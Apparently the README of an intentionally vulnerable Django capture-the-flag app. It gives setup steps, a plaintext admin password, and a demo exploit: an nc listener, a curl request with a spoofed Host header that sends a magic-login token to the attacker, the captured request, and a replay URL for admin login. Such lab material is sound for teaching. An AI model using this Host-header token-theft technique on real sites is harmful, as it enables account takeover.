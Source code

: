 # Install

## External requirements

- a working mail server, and a correct django configuration
- for dev, it's an sqlite database, django support other backend
- Flag is configurable on settings.py
- Special group is configurable on settings.py

## Build

```
docker compose build
docker compose up -d
```

## Init

```
docker compose exec python ./manage.py migrate
docker compose exec python ./manage.py createsuperuser
```

Login to admin
- Create a special group, the name should be the one configured in settings.py
- Create at least one user and add it in the group
- Optionaly create a few user (normal, and staff) (locahost:8001/admin), add first_name, last_name and email

Then logout from the admin. (This is important, if not, you will be loggin on the wepapp as superadmin)

PASSWORD DJANGO
RGdadGGUQmuoCfGUX^ktU&voyuHhsy3!

## Demo Exploit

Launch a nc listner
```
nc -l -p 8082
```
Get a victim on the user directory page (http://localhost:8001/userdir)
Ask for a no pass login token, with and evil host and the victim mail
```
curl -H "Host: localhost:8082" http://localhost:8001/nopasslogin\?email\=special1@email.host
```

Wait for the admin to click on the no login link, and get the token, you will receive some data on the netcat shell, for exemple:
```
GET /nopasslogin?auth=YWRtaW5AYWRtaW4uaG9zdDoxcUJzeHM6ajRRcjliNkc2Z1BmRmNQRXVpVDkzQkItNzI4dVFSOG9TU0J4Z2k0MzhxVQ== HTTP/1.1
Host: localhost:8002
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) QtWebEngine/5.15.8 Chrome/87.0.4280.144 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
DNT: 1
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: search_parameters=%7B%22addresses%22%3A%22on%22%2C%22subnets%22%3A%22on%22%2C%22vlans%22%3A%22on%22%2C%22vrf%22%3A%22off%22%2C%22pstn%22%3A%22off%22%2C%22circuits%22%3A%22on%22%2C%22customers%22%3A%22off%22%7D; expandfolders=0; sstr=%7C18486%7C; csrftoken=sJzEIZxD90nlUl1a8CzCLVWwdZPru2qn
```

Now, you can use the auth param, with the correct host to login as the admin user, go to:
`http://localhost:8001/nopasslogin?auth=YWRtaW5AYWRtaW4uaG9zdDoxcUJzeHM6ajRRcjliNkc2Z1BmRmNQRXVpVDkzQkItNzI4dVFSOG9TU0J4Z2k0MzhxVQ==`

